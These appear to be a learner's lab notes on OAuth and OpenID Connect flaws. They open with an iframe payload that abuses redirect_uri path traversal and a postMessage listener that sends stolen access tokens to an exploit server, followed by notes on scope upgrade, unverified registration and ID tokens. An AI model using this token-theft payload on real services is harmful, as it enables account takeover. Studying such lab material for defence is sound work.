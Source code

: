 ```
<iframe src="<https://YOUR-LAB-AUTH-SERVER/auth?client_id=YOUR-LAB-CLIENT_ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email>"></iframe>

```

`<script>   window.addEventListener('message', function(e) {     fetch("/" + encodeURIComponent(e.data.data))   }, false) </script` this script listen web message in the exploit server and revel the message.

# Flowed Scope Validation

- In any OAuth flow, the user must approve the requested access based on the scope defined in the authorization request. The resulting token allows the client application to access only the scope that was approved by the user. But in some cases, it may be possible for an attacker to "upgrade" an access token (either stolen or obtained using a malicious client application) with extra permissions due to flawed validation by the OAuth service. The process for doing this depends on the grant type.

### Scope Upgrade:

- their is chance to manipulate the scope
- also unverified user registration that doesn't verify the user who register so attacker can register with the same detail that victim have and may able to login in as victim.

# OpenId Connect

### what is OpenId connect

- OpenID Connect extends the OAuth protocol to provide a dedicated identity and authentication layer that sits on top of the `basic OAuth implementation` It adds some simple functionality that enables better support for the authentication use case of OAuth.

### OpenId Connet Roles

- Relying Party: The application that is requesting authentication of user. same as OAuth client application.
- End user: The user who is being authenticated. same as OAuth resource owner.
- OpenId Provider: an Oauth service that is configured to support OpenId Connect.

### OpenId Connect Claims and Scopes

"claims" refer to `key:value` pairs that represent information about user on the resource server.
`name:"DK"`

- scope of OpenId connect are fixed and they include 1 or more other standard scopes.

### ID Token

`id_token` Response type.

- this return `JSON Web Token(JWT)` signed with `JSON web signature(JWS)`
- The main benefit of using `id_token` is the reduced number of requests that need to be sent between the client application and the OAuth service, which could provide better performance overall. Instead of having to get an access token and then request the user data separately, the ID token containing this data is sent to the client application immediately after the user has authenticated themselves.
- ID token is based on Cryptographic signature. so protection against MITM but keys for verification transmit on the same channel.(Normally exposed on `/.well-known/jwks.json`)
- Note that multiple response types are supported by OAuth, so it's perfectly acceptable for a client application to send an authorization request with both a basic OAuth response type and OpenID Connect's `id_token` response type:
`response_type=id_token token response_type=id_token code`.
